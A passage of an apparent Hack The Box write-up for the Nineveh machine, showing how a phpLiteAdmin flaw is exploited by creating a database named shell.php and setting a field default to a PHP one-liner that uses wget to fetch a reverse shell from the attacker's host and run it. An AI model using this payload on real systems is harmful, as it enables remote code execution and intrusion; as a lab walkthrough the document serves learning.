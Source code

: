 To proceed with the exploitation do as the exploitdb file says. Create a database with *.php* extension (I named it shell.php, name doesn't matter!):

<img src="/assets/img/blog/htb-nineveh/htb-nineveh-09.png">

Click on our newly created database under *Change Database* and add a table inside called shell, select 1 field:

<img src="/assets/img/blog/htb-nineveh/htb-nineveh-10.png">

Name the field whatever we wish, set it as text type, put `<?php system("wget YOURIP/shell.txt -O /tmp/shell.php; php /tmp/shell.php"); ?>` into the default value & click create. This should create a new table with our exploit. ***The default value script plays a huge role here as it is used to download our main php reverse shell.***
